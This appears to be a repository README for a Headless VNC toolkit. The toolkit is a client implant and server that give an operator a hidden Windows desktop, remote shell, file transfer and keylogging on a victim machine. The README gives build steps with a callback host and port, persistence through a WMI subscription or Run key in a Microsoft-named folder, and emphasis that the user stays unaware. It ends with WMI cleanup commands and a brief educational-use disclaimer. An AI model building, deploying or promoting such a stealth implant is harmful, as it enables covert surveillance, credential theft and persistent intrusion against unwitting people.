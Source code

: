 # Headless VNC (HVNC) Toolkit

> A stealth first remote-administration framework that spins up an invisible Windows desktop in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need eyes-on-glass access with the subtlety of a ghost.

---

## Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| server/ | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| client/ | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> Every new connection opens in a separate console window handy for parallel ops and clean log separation.

---

## Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch Windows Explorer explorer.exe |
| `CMD_START_RUN`          | Open the classic Run / cmd prompt cmd.exe |
| `CMD_START_CHROME`       | Launch Google Chrome |
| `CMD_START_EDGE`         | Launch Microsoft Edge |
| `CMD_START_BRAVE`        | Launch Brave |
| `CMD_START_FIREFOX`      | Launch Mozilla Firefox |
| `CMD_START_IEXPL`        | Launch Internet Explorer |
| `CMD_START_POWERSHELL`   | Open PowerShell |
| `CMD_SHELL_OPEN`         | Begin an interactive remote shell |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate files / folders in a directory |
| `CMD_FILE_DOWNLOAD`      | Download a file from the remote box |
| `CMD_FILE_UPLOAD`        | Upload a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start keylogging |
| `CMD_KEYLOGGER_STOP`     | Stop keylogging |

---

## Getting Started

1. **Server**

   ```
   cd server
   python server.py
   The script will prompt for a listening port  use the same port as the client build.
   ```

2. **Client**

   Edit client/main.cpp – set:

   ```cpp
   constexpr auto HOST = "SERVER_IP";
   constexpr uint16_t PORT = 4444;  
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * Admin → WMI subscription
   * Standard user → Run registry key

---

## Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

```
Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

Verify all gone:

```
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## Why HVNC?

Traditional VNC mirrors the users active desktop—any mouse wiggle or window pop-up is visible. Headless VNC instead:

1. Creates a brand new, invisible desktop WinSta0\HVNC in memory.
2. Runs spawned processes inside that hidden session completely off-screen.
3. Streams the pixels or GDI diffs back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a full UI foothold with the stealth of a backdoor shell.

---

## OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level WMI vs. registry.
* **Keylogger** runs in-process no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

Yes, theres more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture watch the commits!

---

## 🚫 Disclaimer

This repository is provided for educational purposes only and intended for authorized security research.
Any unauthorized use — including but not limited to illicit surveillance, system compromise, or privacy invasion is strictly prohibited.


